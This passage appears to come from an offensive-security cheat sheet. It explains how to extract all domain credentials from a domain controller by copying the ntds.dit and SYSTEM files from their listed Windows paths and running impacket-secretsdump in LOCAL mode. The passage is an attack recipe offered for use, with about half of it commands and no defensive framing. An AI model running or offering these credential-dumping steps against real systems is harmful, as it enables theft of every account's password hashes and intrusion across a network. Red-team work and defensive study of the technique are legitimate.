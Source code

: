 ### Extract NTDS from a local NTDS.dit file
If you get a local access to the DC, you have to get NTDS.dit and SYSTEM files in order to extract all the informations. These files are located here :
```powershell
%SYSTEMROOT%\NTDS\ntds.dit
%SystemRoot%\System32\config\SYSTEM
```
Once you get these two files, you are able to extract all the informations using impacket. The 'LOCAL' at the end allows you to use local ntds file :
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
